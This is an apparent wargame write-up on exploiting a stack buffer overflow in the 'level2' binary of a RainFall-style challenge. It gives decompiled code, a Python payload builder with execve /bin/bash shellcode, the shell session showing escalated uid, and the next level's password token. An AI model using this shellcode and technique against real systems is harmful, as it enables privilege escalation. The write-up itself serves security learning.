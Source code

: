 # Level1

## Information gathering

We are once again given a binary to exploit. This binary also has minimal security options.

We reverse engineer it once again using ghidra and it gives the following pseudo-C :

```c
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
```

And the stack frame looks like this :
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined p()
             undefined         AL:1           <RETURN>
             undefined4        Stack[0x0]:4   local_res0                 
             undefined4        Stack[-0x10]:4 local_10                   
             undefined1        Stack[-0x50]:1 local_50                   
             undefined4        Stack[-0x68]:4 local_68                   
             undefined4        Stack[-0x6c]:4 local_6c                   
```
Looks like an easy buffer overflow, except unaff_retaddr is checked in order to see if it begins with `0xb`.

It is unclear what `unaff_retaddr` is because can't find any docs about it. However, if we look at the asm that corresponds to these lines and the stack frame :

```assembly
        080484f2 8b 45 04        MOV        EAX,dword ptr [EBP + local_res0]
        080484f5 89 45 f4        MOV        dword ptr [EBP + local_10],EAX
        080484f8 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
        080484fb 25 00 00        AND        EAX,0xb0000000
                 00 b0
        08048500 3d 00 00        CMP        EAX,0xb0000000
                 00 b0
```
We can see that this is just the return address.

This effectively prevents us from overwriting the return address with an address on the stack because the stack address for this program seems to always start with `0xb`.
But look at the end ! There's a call to `strdup` which seems very useless to the program but very useful to us because if we know the address that `strdup` returns,
then, we can overwrite the return address with that value so that it lands on a copy of our shellcode.

```text
$> ltrace ./level2
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5dfjgpodsgsdg
)                                                                                     = 0xbffff6fc
puts("dfjgpodsgsdg"dfjgpodsgsdg
)                                                                                                              = 13
strdup("dfjgpodsgsdg")                                                                                                            = 0x0804a008
+++ exited (status 8) +++
```

I have no clue at this point if the address will be `0x0804a008` with each execution but maybe we should try because I'm too lazy to be smart.


## Exploitation

If we look back at the stack frame, our buffer starts at
`%rsp - 0x50` and the return address is the 4 bytes right after that.

So all we need to do is write our shellcode within the `0x50` first bytes and then write 0x0804a008 in Little Endian (we can figure that out by using the `file` command on our executable).

```py
import struct

heap_addr = 0x0804a008
shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
payload = shellcode
payload += b"\x90" * (0x50 - len(shellcode))
payload += struct.pack("<I", heap_addr)

with open("payload", "wb") as f:
    f.write(payload)
```

And nice, we have our malicious input as a file and all we need to do now is redirect it into the stdin of `level2`.

```text
level2@RainFall:~$ ./level2 < /tmp/payload
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀������������������������������������������
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
```

WTF nothing happened ?! That is because when it receives all the input from `/tmp/payload`, it just closes it and thereis no more `stdin` and bash will be like "What no stdin ? I have no purpose ! Aurevoir.". In order, to fix this we can use use a pipe an unending `cat` command to keep it open :

```text
level2@RainFall:~$ (cat /tmp/payload; cat) | ./level2 
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀������������������������������������������
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
```

And wouhou, we have level3`s effective uid and gid which means we can read his files. So we simply cat the .pass in his home folder :
```text
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Easy onto the next one.

## References

- https://stackoverflow.com/questions/8509045/execve-bin-sh-0-0-in-a-pipe